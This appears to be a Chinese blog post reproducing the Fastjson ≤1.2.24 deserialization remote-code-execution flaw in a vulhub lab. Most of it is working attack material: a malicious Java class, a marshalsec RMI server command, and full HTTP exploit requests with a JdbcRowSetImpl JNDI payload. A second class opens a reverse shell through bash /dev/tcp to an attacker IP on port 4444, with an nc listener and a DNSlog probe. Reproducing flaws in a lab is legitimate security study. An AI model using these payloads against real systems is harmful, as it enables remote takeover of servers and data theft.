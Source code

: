 ```yaml
---
layout: post
title: Fastjson 远程命令执行的POC
categories: [安全漏洞]
description: Fastjson 远程命令执行的POC

keywords: 安全漏洞, fastjson
---
```




# 前言

**漏洞描述**
FastJson 库是 Java 的一个 Json 库，其作用是将 Java 对象转换成 json 数据来表示，也可以将 json 数据转换成 Java 对象，使用非常方便，号称是执行速度最快的库。

在 1.2.24 版本的 Fastjson 出现了一个反序列化的漏洞，fastjson 在解析 json 的过程中，支持使用 autoType 来实例化某一个具体的类，并调用该类的 set/get 方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。

**漏洞影响版本**

fastjson <= 1.2.24

## 准备环境


Fastjson <= 1.2.47 远程命令执行漏洞利用工具及方法，以及避开坑点

以下操作均在Ubuntu 18下亲测可用，openjdk需要切换到8，且使用8的javac

- java
  
```
> java -version
openjdk versin "1.8.0_222"

> javac -version
javac 1.8.0_222
```

## 漏洞环境
靶场选择使用vulhub搭建，网址：<https://github.com/vulhub/vulhub>

下载 vulhub ，找到 `fastjson/1.2.24-rce 目录`，使用docker-compose up -d启动环境。


## 漏洞复现

1. 编写恶意类

在攻击机上编写恶意类代码 `TouchFile.java`

```
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
 static {
     try {
         Runtime rt = Runtime.getRuntime();
         String[] commands = {"touch", "/tmp/EDI"};
         Process pc = rt.exec(commands);
         pc.waitFor();
     } catch (Exception e) {
     }
 }
}

```

然后 `javac TouchFile.java `编译一下，生成 `TouchFile.class`

![](https://img-blog.csdnimg.cn/88f9ab49874a40a8988a78f998bb0241.png)

使用 python 起一个http服务 `python -m SimpleHTTPServer 8888`

![](https://img-blog.csdnimg.cn/7a07f6f92925424f984f40dde31d785a.png)

2. 编译并开启RMI服务

- 下载 [marshalsec](https://github.com/mbechler/marshalsec) 项目 

java8 下，使用 maven 构建 `mvn clean package -DskipTests` 生成相应jar包

![](https://img-blog.csdnimg.cn/b8c45fc54cac4e1e8506e67ff5ab3211.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAQmlnJkJpcmQ=,size_20,color_FFFFFF,t_70,g_se,x_16)


**启动RMI服务，监听 9999端口** ，并制定远程加载类TouchFile.class


```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://攻击机IP:8888/#TouchFile" 9999

```

![](https://img-blog.csdnimg.cn/44f5743c5377421088902a9d0c84f511.png)






### 构建 payload

3. 抓包触发 fastjson 请求
访问 http://靶机:8090/ ，并通过bp抓包

修改请求方式为 `POST`, `Content-Type 改成application/json`，并写入exp，然后发送请求。


```
{
 "b":{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"rmi://攻击机IP:9999/TouchFile",
 "autoCommit":true
 }
}
```

**exp:**

```
POST / HTTP/1.1
Host: 192.168.42.200:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,hr;q=0.8,ru;q=0.7
Cookie: Hm_lvt_bc38887aa5588add05a38704342ad7e8=1646619039; 
Connection: close
Content-Type: application/json
Content-Length: 137

{
 "b":{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"rmi://192.168.42.200:9999/TouchFile",
 "autoCommit":true
 }
}
```

**响应：**

![](https://img-blog.csdnimg.cn/e30d605ff7e146f2a12959ce2561f585.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAQmlnJkJpcmQ=,size_20,color_FFFFFF,t_70,g_se,x_16)


4. 检验结果
   
进入靶机中，发现`创建了/tmp/EDI 文件`攻击成功



## 反弹shell

既然能创建文件，那么也可以反弹shell
修改**恶意类文件 TouchFile.java :**

```
// TouchFile.java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;
 
public class TouchFile {
   static {
       try {
           Runtime r = Runtime.getRuntime();
           Process p = r.exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/<攻击机器IP>/4444 0>&1"});
           p.waitFor();
       } catch (Exception e) {
           // do nothing
       }
   }
}
```

然后 `javac TouchFile.java `编译一下，生成 `TouchFile.class`

#### nc 监听:

nc -lvvp 4444

访问 FastJson 页面，使用 Burp 抓包，改为 POST 请求，使用 exp 反弹 shell

**exp:**

```
POST / HTTP/1.1
Host: 192.168.42.200:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,hr;q=0.8,ru;q=0.7
Cookie: Hm_lvt_bc38887aa5588add05a38704342ad7e8=1646619039; 
Connection: close
Content-Type: application/json
Content-Length: 137

{
 "b":{
 "@type":"com.sun.rowset.JdbcRowSetImpl",
 "dataSourceName":"rmi://192.168.42.200:9999/TouchFile",
 "autoCommit":true
 }
}
```


可以看到请求成功，加载了恶意类,成功拿到 shell




![](https://img-blog.csdnimg.cn/20200720233638849.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MTU5ODY2MA==,size_16,color_FFFFFF,t_70)


## DNSlog 平台验证
1. [DNSlog平台验证](http://www.dnslog.cn/)
   
（比网上很多payload都要好用，通杀版本）

    payload:

    ```
     {"zeo":{"@type":"java.net.Inet4Address","val":"dnslog的位置"}}
    ```
    ![](https://img-blog.csdnimg.cn/20200722205445187.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MTU5ODY2MA==,size_16,color_FFFFFF,t_70)

    ![](https://img-blog.csdnimg.cn/20200722205536663.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MTU5ODY2MA==,size_16,color_FFFFFF,t_70)

## fastjson paylaod 收集

[java.net.URL 函数（实战成功）
](https://github.com/dzxindex/security_script/blob/main/fastjson/fastjson-payload.md)

# 免责声明

[干货｜最全fastjson漏洞复现与绕过
](https://cloud.tencent.com/developer/article/1974944)
仅作为漏洞复现进行学习，切勿对网站进行非法测试